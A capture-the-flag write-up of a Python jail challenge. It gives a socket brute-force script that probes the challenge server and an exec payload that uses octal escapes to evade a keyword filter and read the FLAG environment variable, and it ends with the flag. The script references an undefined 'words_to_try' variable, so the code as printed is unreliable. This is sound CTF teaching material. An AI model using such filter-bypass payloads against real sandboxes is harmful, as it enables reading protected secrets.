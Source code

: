 ## Case sensitivity

# Description
This was a multi-stage challenge that started as a restricted shell and escalated into an incredibly difficult python jail. The jail used a whitelist
based filter that blocked nearly every useful function, keyword, and even iterator variables.The final solution was to use the whitelisted 
`exec` function with a payload where forbidden keywords like `print` and `getenv` were obfuscated using octal escape codes.

# Writeup
We worked through a brute-force script that discovered the whitelist: `PRINT`, `ENVIRON`, `FLAG`, and `exec`. We naturally assumed the solution was
`PRINT(ENVIRON['FLAG'])`. However, this produced a NameError. The whitelisted words were a deliberate misdirection—they passed the filter but were useless at runtime.

# Brute force script:

```
import socket
import string
import keyword
import os

# --- Configuration ---
HOST = 'chall_citadel.cryptonitemit.in'
PORT = 32770
TIMEOUT = 3 

candidates = set()
for k in keyword.kwlist:
    candidates.add(k)
for b in dir(__builtins__):
    candidates.add(b)
for o in dir(os):
    candidates.add(o)
for p in string.printable:
    if not p.isspace():
        candidates.add(p)
wordlist = sorted(list(candidates))
found_words = []
total_words = len(wordlist)

print(f"[*] Starting comprehensive brute-force with {total_words} candidates...")

for i, word in enumerate(wordlist):
    # print progress every 100 words
    if (i + 1) % 100 == 0:
        print(f"[*] Testing... ({i + 1}/{total_words})")
    
    for attempt in words_to_try:
        if attempt in found_words:
            continue
            
        try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
                s.settimeout(TIMEOUT)
                s.connect((HOST, PORT))
                s.recv(4096)  # Read banner
                
                payload = attempt + '\n'
                s.sendall(payload.encode())
                
                response = s.recv(4096).decode(errors='ignore')
                
                if "not allowed!" not in response:
                    if attempt not in found_words:
                        print(f"[+] Found whitelisted word: {attempt}")
                        found_words.append(attempt)

        except socket.timeout:
            pass # Ignore timeouts, just means the server is slow
        except Exception:
            pass # Ignore other connection errors

print("\n[*] --- Scan Complete ---")
if found_words:
    print(f"[*] Whitelisted words found: {', '.join(sorted(found_words))}")
else:
    print("[*] No whitelisted words found from the comprehensive list.")
```

The vulnerability was a classic keyword filter bypass. The clean() function scanned the string argument passed to exec for forbidden words. 
The solution was to build the payload using characters the filter wouldn't recognize, but that the Python interpreter would correctly parse.
We used octal escape codes to construct the payload `print(getenv('FLAG'))`.

```
\160\162\151\156\164  ->  `print`

\147\145\164\145\156\166  ->  `getenv`

\106\114\101\107      ->  `FLAG`
```
final command: `exec('\160\162\151\156\164(\147\145\164\145\156\166(\'\106\114\101\107\'))')`

Flag hence obtained : `citadel{d34th_d035_n07_fr33_y0u_fr0m_7h3_gu17ar15t}`
